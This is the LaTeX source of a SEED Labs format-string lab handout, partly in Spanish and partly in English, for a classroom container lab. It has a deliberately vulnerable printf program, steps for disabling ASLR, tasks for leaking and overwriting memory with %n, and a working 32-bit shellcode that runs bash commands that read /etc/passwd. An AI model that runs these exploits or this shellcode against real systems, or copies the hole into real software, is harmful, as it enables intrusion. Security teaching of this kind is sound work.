%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{hyperref}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{
Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net}.\xspace}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

%% Lab Environment
\newcommand{\seedenvironment}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentA}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentB}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED .\xspace}

\newcommand{\seedenvironmentC}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED. Sin embargo, la mayoría de nuestros laboratorios pueden ser realizados en la nube para esto Ud. puede leer nuestra guía que explica como crear una VM de SEED en la nube.\xspace}

\newcommand{\seedenvironmentAB}{
Este laboratorio ha sido testeado en nuestras imagenes pre-compiladas de una VM con Ubuntu 16.04 y otra con Ubuntu 20.04, que pueden ser descargadas del sitio oficial de SEED.\xspace}

\newcommand{\nodependency}{Dado que utilizamos contenedores para configurar el entorno de laboratorio, este laboratorio no depende estrictamente de la VM de SEED. Puede hacer este laboratorio utilizando otras máquinas virtuales, máquinas físicas o máquinas virtuales en la nube.\xspace}

\newcommand{\adddns}{You do need to add the required IP address mapping to
the \texttt{/etc/hosts} file.\xspace}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      Este trabajo se encuentra bajo licencia Creative Commons.
       Attribution-NonCommercial-ShareAlike 4.0 International License.
       Si ud. remezcla, transforma y construye a partir de este material,
       Este aviso de derechos de autor debe dejarse intacto o reproducirse de una manera que sea razonable para el medio en el que se vuelve a publicar el trabajo.
       }}
\vspace{0.1in}
}






\newcommand{\formatFigs}{./Figs}


\lhead{\bfseries SEED Labs -- Laboratorio de Format String}


\begin{document}

\begin{center}
{\LARGE Laboratorio de Format String}
\end{center}

\seedlabcopyright{2018 - 2020}



% *******************************************
% SECTION
% ******************************************* 
\section{Descripción General}

La función \texttt{printf()} en C es usada para imprimir una cadena de acuerdo a un formato específico. El primer argumento de esta función es llamado \textit{format string}, y define como debería de ser formateada la cadena. Las cadenas con formato (format strings) usan placeholder representados por el caracter \texttt{\%} que es usado por la función \texttt{printf()} para llenarlas con datos a la hora de su parseo. El uso de las cadenas con formato no sólo se limita a la función \texttt{printf()}; existen muchas otras funciones como \texttt{sprintf()}, \texttt{fprintf()}, y \texttt{scanf()} que usan cadenas con formato. Algunos programas permiten que los usuarios ingresen parte o todo su contenido en una cadena de formato. Si este contenido no es sanitizado de manera adecuada, usuarios maliciosos pueden hacer que el programa ejecute código arbitrario. Este tipo de problema se conoce como \textit{format string vulnerability}.

El objetivo de este laboratorio es que los estudiantes aprendan y ganen experiencia en las vulnerabilidades de format string, poniendo en acción lo aprendido en clase sobre este tipo de vulnerabilidad.
Los estudiantes tendrán a mano un programa con una vulnerabilidad de format string; su tarea será desarrollar un exploit para esta vulnerabilidad, haciendo que: (1) el programa rompa, (2) se pueda leer la memoria interna del programa, (3) modificar la memoria interna del programa y más peligroso aún (4) inyectar y ejecutar código malicioso usando los privilegios de la víctima a la hora de explotar el programa vulnerable.
Este laboratorio cubre los siguientes tópicos:


\begin{itemize}[noitemsep]
\item Vulnerabilidad de Format String y Inyección de Código
\item Stack layout
\item Shellcode 
\item Shell Reversa
\end{itemize}


\paragraph{Lecturas y Videos.}
Para una cobertura más detallada en el ataque de Format String puede consultar

\begin{itemize}
\item Capítulo 6 del libro de SEED, \seedbook
\item Sección 9 del curso de SEED en Udemy, \seedcsvideo
\item Este laboratorio incluye también shell reversa, tema que es cubierto en el Capítulo 9 del libro de SEED.
\end{itemize}


\paragraph{Entorno de Laboratorio.} \seedenvironmentC

\paragraph{Nota para instructores.}
Los instructores pueden personalizar este laboratorio, elijiendo valores para \texttt{L}. Vea la Sección \ref{sec:vulnerable_program} para más detalles.
Dependiendo del conocimiento de los estudiantes y del tiempo que se le va a dedicar al laboratorio, los instructores pueden hacer opcional el ataque en programas de 64-bits dado que es más complicado. Los ataques en programas de 32-bits son suficiente para cubrir los conceptos básicos de los ataques de format string.

% *******************************************
% SECTION
% *******************************************
\section{Configuración del Entorno de Laboratorio} 


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Desactivando las Contramedidas} 

Los sistemas operativos modernos, usan la randomización de los espacios de memoria (address space randomization), esto hace que las direcciones de memoria tanto en el heap como en el stack sean aleatorias, lo que ocasiona un problema a la hora de calcular las direcciónes de memoria para nuestro ataque ya que contar con estas de antemano es fundamental para que el ataque de format string sea exitoso. 
A continuación se muestra el comando para desactivar esta contramedida:


\begin{lstlisting}
$ sudo sysctl -w kernel.randomize_va_space=0
\end{lstlisting}


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{El Programa Vulnerable}
\label{sec:vulnerable_program}

El programa vulnerable usado para este laboratorio se llama \texttt{format.c} y se encuentra dentro del directorio \texttt{server-code}.
Este programa tiene una vulnerabilidad de format string y su objetivo será explotar esta vulnerabilidad.
El código que se muestra a continuación es ligeramente diferente al que se encuentra en el directorio del laboratorio pero en esencia son lo mismo.

\begin{lstlisting}[label=format:code, 
       caption={The vulnerable program \texttt{format.c} (with non-essential information removed)}]
unsigned int  target = 0x11223344;
char *secret = "A secret message\n";

void myprintf(char *msg)
{
    // This line has a format-string vulnerability
    printf(msg);
}

int main(int argc, char **argv)
{
    char buf[1500];
    int length = fread(buf, sizeof(char), 1500, stdin);
    printf("Input size: %d\n", length);

    myprintf(buf);

    return 1;
}
\end{lstlisting}

El programa anterior lee datos del standard input y pasa estos datos a la función
\texttt{myprintf()}, esta función llama a \texttt{printf()} que se encargará de mostrar los datos por consola.
La forma en como se pasan estos datos a la función \texttt{printf()} es poco segura y puede desembocar en una vulnerabilidad de format string.
Explotaremos esta vulnerabilidad

Este programa se ejecutará en un servidor con privilegios de root y su standard input será redirigida a través de una conexión TCP enttre el servidor y un usuario remoto, de esta forma el programa obtendra su input de entrada desde un usuario remoto. Si el usuario puede explotar esta vulnerabilidad, puede producir daños graves.


\paragraph{Compilación.} 
Compilaremos el programa \texttt{format} en un binario de 32-bits y en otro de 64-bits. Nuestra Máquina Virtual Ubuntu 20.04 es una máquina virtual de 64-bits pero soporta binarios de 32-bits. Todo lo que necesitamos hacer es usar el parámetro \texttt{-m32} a la hora de compilar el programa con el comando  \texttt{gcc}.
También usaremos el parámetro \texttt{-static} para generar librerías estáticamente linkeadas para el binario para no depender de ninguna librería dinámica ya que estas no fueron instaladas en nuestro contenedor y no soportan binarios de 32-bits.

Los comandos de compilación se encuentran dentro del archivo \texttt{Makefile}. Para compilar el código, deberá tipear \texttt{make} y esto hará que los comandos del Makefile se ejecuten.
Después de la compilación debemos de copiar el binario dentro del directorio \texttt{fmt-containers} de esta forma estará disponible en nuestros contenedores.
A continuación se indican los comandos para realizar el proceso de compilación y la instalación:

\begin{lstlisting}
$ make
$ make install
\end{lstlisting}

Durante la compilación, ud. verá un mensaje de warning. Este mensaje de warning es producido por una protección implementada en \texttt{gcc} para prevenir vulnerabilidades de format string. Podemos ignorarla por ahora.

\begin{lstlisting}
format.c: In function 'myprintf':
format.c:33:5: warning: format not a string literal and no format arguments
                        [-Wformat-security]
   33 |     printf(msg);
      |     ^~~~~~
\end{lstlisting}

Vale aclarar que el programa necesita ser compilado usando el parámetro  \texttt{"-z execstack"}, que hace ejecutable al stack. Dado que el objetivo final de nuestro ataque es inyectar código dentro del stack del programa vulnerable y ejecutarlo posteriormente.
La protección de Non-executable stack permite prevenir que se ejecute en código en el stack pero puede ser evadida usando la técnica de return-to-libc, la cual es cubierta en otro laboratorio de SEED. Por un tema de simplicidad, desactivaremos esta protección en este laboratorio.


\paragraph{Para los instructores.} 
Para hacer el laboratorio un poco diferente al ofrecido en el apsado, los instructores pueden cambiar el valor de \texttt{BUF\_SIZE} pidiendo a los estudiantes que compillen el códigoo del servidor usando un valor diferente en \texttt{BUF\_SIZE}.
El valor \texttt{BUF\_SIZE} es seteado por la variable \texttt{L} y esta parametrización se realiza en el archivoo \texttt{Makefile}. Los instructores deberán de elegir un valor para esta variable basado en la sugerencia descripta en el código del archivo \texttt{format.c}.


\paragraph{El Programa Servidor.}
Dentro del directorio \texttt{server-code}, encontrará un archivo llamado \texttt{server.c}.
Este es el punto de entrada principal del servidor, este programa estará a la escucha en el puerto \texttt{9090}. 
Cuando este programa recibe una conexión TCP, ejecutará el programa \texttt{stack} y establecerá esta conexión como el standard input del programa \texttt{format}. De esta manera cuando \texttt{stack} lea los datos de su \texttt{stdin}, estará leyendo los datos que llegan de la conexión TCP (es decir los datos enviados por el usuario remoto). No es necesario que los estudiantes entiendan por completo el código de \texttt{server.c}.

Para que la dirección del buffer y su frame pointer no sean siempre los mismos para cada uno de los estudiantes que realizan el laboratorio, hemos agregado un poco de aleatoriedad al programa vulnerable. Estos valores cambiarán cada vez que se el contenedor se reinicie, mientras el contenedor este corriendo los valores permanecerán iguales. Esta aleatoriedad es solamente para hacer el trabajo de los estudiantes un tanto diferente y no debe confundirse con address-randomization.


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Setup del Contenedor y sus Comandos}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Para empezar a preparar el contenedor, deberá descargarse el archivo \texttt{Labsetup.zip} ubicado en el laboratorio correspondiente dentro del sitio web oficial y copiarlo dentro de la Máquina Virtual prevista por SEED. Una vez descargado deberá descomprimirlo y entrar dentro del directorio \texttt{Labsetup} donde encontrará el archivo \texttt{docker-compose.yml} que servirá para setear el entorno de laboratorio. Para una información más detallada sobre el archivo \texttt{Dockerfile} y otros archivos relacionados, puede encontrarla dentro del Manual de Usuario del laboratorio en uso, en el sitio web oficial de SEED.

Si esta es su primera experiencia haciendo el setup del laboratorio usando contenedores es recomendable que lea el manual anteriormente mencionado.

A continuación, se muestran los comandos más usados en Docker y Compose.
Debido a que estos comandos serán usados con mucha frecuencia, hemos creados un conjunto de alias para los mismos, ubicados en del archivo \texttt{.bashrc} dentro de la Máquina Virtual provista por SEED (Ubuntu 20.04)

\begin{lstlisting}
$ docker-compose build  # Build the container image
$ docker-compose up     # Start the container
$ docker-compose down   # Shut down the container

// Aliases for the Compose commands above
$ dcbuild       # Alias for: docker-compose build
$ dcup          # Alias for: docker-compose up
$ dcdown        # Alias for: docker-compose down
\end{lstlisting}


Dado que todos los contenedores estarán corriendo en un segundo plano. Necesitamos correr comandos para interactuar con los mismos, una de las operaciones fundamentales es obtener una shell en el contenedor. 
Para este propósito usaremos \texttt{"docker ps"} para encontrar el ID del contenedor deseado y ingresaremos \texttt{"docker exec"} para correr una shell en ese contenedor.
Hemos creado un alias para ello dentro del archivo \texttt{.bashrc}

\begin{lstlisting}
$ dockps        // Alias for: docker ps --format "{{.ID}}  {{.Names}}" 
$ docksh <id>   // Alias for: docker exec -it <id> /bin/bash

// The following example shows how to get a shell inside hostC
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#  

// Note: If a docker command requires a container ID, you do not need to 
//       type the entire ID string. Typing the first few characters will 
//       be sufficient, as long as they are unique among all the containers. 
\end{lstlisting}

En caso de problemas configurando el entorno, por favor consulte la sección ``Common Problems'' en el manual ofrecido por SEED. 


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% *******************************************
% SECTION
% *******************************************
\section{Tarea 1: Rompiendo el Programa}

Cuando levantamos los contenedores configurados en el archivo \texttt{docker-compose.yml}, dos contenedores estarán disponibles, cada uno de ellos corre una instancia diferente del servidor vulnerable.
Para esta tarea, usaremos el servidor cuya IP es \texttt{10.9.0.5}, y corre la versión de 32-bits del programa vulnerable.
Primero procederemos a enviar un mensaje inocuo (a modo de prueba) hacia el servidor.
Una vez hecho esto podremos observar en el contenedor target los siguientes mensajes (esto puede variar levemente)

\begin{lstlisting}
$ echo hello | nc 10.9.0.5 9090
Press Ctrl+C

// Printouts on the container's console
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | Input buffer (address):        0xffffd2d0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Input size: 6
server-10.9.0.5 | Frame Pointer inside myprintf() = 0xffffd1f8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | hello
server-10.9.0.5 | (^_^)(^_^) Returned properly (^_^)(^_^)
server-10.9.0.5 | The target variable's value (after):  0x11223344
\end{lstlisting}
 
El servidor podrá aceptar un flujo de datos superior a \texttt{1500} bytes. Su tarea es construir diferentes payloads para explotar la vulnerabilidad de format string en el servidor. Si ud. salva este payload dentro de un archivo, puede enviarlo al servidor de la siguiente manera.

\begin{lstlisting}
$ cat <file> | nc 10.9.0.5 9090
Press Ctrl+C  if it does not exit.
\end{lstlisting}

\paragraph{Tarea.} Su tarea es enviar un input al servidor, de manera que cuando el programa trate de imprimir el input que llega del usuario remoto usando la función \texttt{myprintf()}, este programa rompa. Puede advertir que el programa  \texttt{format} ha roto o crasheado observando el output generado en el contenedor. Si la función \texttt{myprintf()} retorna exitósamente mostrará \texttt{"Returned properly"}. 
En cambio si este mensaje no es impreso, es muy probable que el programa \texttt{format} haya roto.
Aunque pase esto, el programa servidor no romperá por completo; el programa \texttt{format} corre dentro de un proceso hijo que es creado por el proceso padre que corre el programa servidor.


Dado que la mayoría de las cadenas de formatos construidas en este laboratorio pueden ser algo grandes, es mejor usar un programa para generarlas. Dentro del directorio  \texttt{attack-code}, hemos creado un código de ejemplo llamado  \texttt{build\_string.py}. Para aquellas personas que no están familiarizadas con Python este código se encarga de mostrar como poner varios tipos de datos dentro de una cadena.



% *******************************************
% SECTION
% *******************************************
\section{Tarea 2: Mostrando la Memoria del Programa Servidor}

El objetivo de esta tarea es hacer que el servidor imprima datos de su memoria (continuaremos usando el contenedor \texttt{10.9.0.5}).
Los datos serán impresos del lado del servidor, por lo que el atacante no podrá verlos. Si bien este ataque no es tan significante, la técnica usada para ejecutar este ataque será esencial para ataques subsiguientes.


\begin{itemize} 
\item \textbf{Tarea 2.A: Datos del Stack.}
El objeto será mostrar los datos en el stack.
Cuantos especificadores de formato \texttt{\%x} necesita para que el programa servidor imprima los primeros cuatro bytes de su input? Puede poner cualquier número de 4 bytes, por lo que al ser impreso en pantalla, puede saberlo.
Este número será importante para las tareas subsiguientes, asegúrese de hacerlo bien.


\item \textbf{Tarea 2.B: Datos del Heap} 
Existe un mensaje secreto (una cadena) guardada en el area del heap y puede encontrar ssu dirección de memoria del mensaje impreso en el contenedor.
Su tarea es imprimir este mensaje secreto.
Para lograr este objetivo, necesita ubicar la dirección de memoria (de forma binaria) del mensaje secreto en la cadena de formato.

La mayoría de las computadores son little endian, por lo que al guardar una dirección como \texttt{0xAABBCCDD} (cuatro bytes en una máquina de 32-bits) en memoria, el byte menos significativo \texttt{0xDD} es guardado en las direcciones de memoria más bajas, mientras que el byte más significativo \texttt{0xAA} es guardado en las direcciones de memoria más altas. 
Al guardar la dirección de un buffer, necesitamos hacerlo usando este orden: \texttt{0xDD}, \texttt{0xCC}, \texttt{0xBB}, y por último \texttt{0xAA}.
Puede hacerlo de la siguiente forma usando Python:

\begin{lstlisting}
number  = 0xAABBCCDD
content[0:4]  =  (number).to_bytes(4,byteorder='little')
\end{lstlisting}
     
\end{itemize} 





% *******************************************
% SECTION
% *******************************************
\section{Tarea 3: Modificando la Memoria del Programa Servidor}

The objective of this task is to modify the value of the 
\texttt{target} variable that is defined in the 
server program (we will continue to use \texttt{10.9.0.5}). 
The original value of \texttt{target} is \texttt{0x11223344}. 
Assume that this variable holds an important value, which can affect the 
control flow of the program. If remote attackers can change its value, 
they can change the behavior of this program. We have three sub-tasks. 

\begin{itemize} 
\item \textbf{Task 3.A: Change the value to a different value.}
In this sub-task, we need to change the content of the \texttt{target} variable
to something else. Your task is considered as a success if you can change it to a
different value, regardless of what value it may be. The address of 
the \texttt{target} variable can be found from the server printout. 


\item \textbf{Task 3.B: Change the value to \texttt{0x5000}.}  
In this sub-task, we need to change the content of the \texttt{target} variable
to a specific value \texttt{0x5000}. Your task is considered as 
a success only if the variable's value becomes \texttt{0x5000}. 


\item \textbf{Task 3.C: Change the value to \texttt{0xAABBCCDD}.}  
This sub-task is similar to the previous one, except that the target value is 
now a large number. In a format string attack, this 
value is the total number of characters that
are printed out by the \texttt{printf()} function; printing out 
this large number of characters may take hours. You need to use a faster approach. The 
basic idea is to use \texttt{\%hn} or \texttt{\%hhn}, instead of \texttt{\%n}, so we can modify 
a two-byte (or one-byte) memory space, instead of four bytes. Printing out
$2^{16}$ characters does not take much time. More details 
can be found in the SEED book.
\end{itemize} 



% *******************************************
% SECTION
% *******************************************
\section{Tarea 4: Inyectar Código Malicioso dentro del Programa Servidor}

Now we are ready to go after the crown jewel of this attack, code injection. 
We would like to inject a piece of malicious code, in its binary format, 
into the server's memory, and then use the format string vulnerability 
to modify the return address field of a function, so when the function returns, 
it jumps to our injected code. 

The technique used for this task is similar to that in the previous task:
they both modify a 4-byte number in the memory. The previous task
modifies the \texttt{target} variable, while this task modifies the return
address field of a function. Students need to figure out the address
for the return-address field based on the information printed out 
by the server. 


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Entendiendo el Stack Layout} 

\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.8\textwidth]{\formatFigs/StackLayout.pdf}
\end{center}
\caption{The stack layout when \texttt{printf()} is invoked 
from inside of the \texttt{myprintf()} function.}
\label{format:fig:stacklayout}
\end{figure}

To succeed in this task, it is essential to understand the stack layout when
the \texttt{printf()} function is invoked inside \texttt{myprintf()}. 
Figure~\ref{format:fig:stacklayout} depicts the stack layout. 
It should be noted that we intentionally placed a dummy stack frame between
the \texttt{main} and \texttt{myprintf} functions, but it is not shown in the
figure. Before working on this task, students need to
answer the following questions (please include your answers
in the lab report): 


\begin{itemize}[noitemsep]
\item \textbf{Question 1:}  What are the memory addresses at the locations marked by
\ding{203} and \ding{204}?

\item \textbf{Question 2:} How many \texttt{\%x} format specifiers do we 
need to move the format string argument pointer to \ding{204}? Remember, 
the argument pointer starts from the location above \ding{202}. 
\end{itemize} 



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Shellcode} 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% This file is used by the following labs. Please check 
% these labs if changes are made here, so they don't cause
% problems to those labs:
%     - Buffer_Overflow_Server
%     - Format_String
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

Un Shellcode es una porción de código comúnmente escrito en lenguaje ensamblador y que es típicamente usado para realizar ataques de inyección de código a la hora de explotar determinadas vulnerabilidades.
En este laboratorio, sólo ofrecemos un binario genérico de un shellcode, dado que el funcionamiento de un shellcode está fuera del alcance de este laborattorio, no nos adentraremos en los detalles de su funcionamiento.
Si está interesado en saber como funciona un shellcode y quiere escribir un shellcode desde cero, puede consultar nuestro laboratorio \textit{Shellcode Lab}.
A continuación se muestra nuestro shellcode genérico de 32-bits:

\begin{lstlisting}[language=python]
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"                                                     (*@\ding{202}@*)
   "-c*"                                                            (*@\ding{203}@*)
   "/bin/ls -l; echo Hello; /bin/tail -n 2 /etc/passwd        *"    (*@\ding{204}@*)
   # The * in this line serves as the position marker         *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
\end{lstlisting}

Este shellcode ejecuta un shell \texttt{"/bin/bash"} (Line~\ding{202}) con dos argumentos de entrada que son invocados usando el parámetro \texttt{"-c"} (Línea \ding{203}) y su valor que en este caso es una cadena con comandos (Línea \ding{204}). Esto quiere decir que el shell correrá una determinada cantidad de comandos como segundo argumento.
El \texttt{*} al final de la cadena es un placeholder y será reemplazado por el byte \texttt{0x00} durante la ejecución del shellcode.
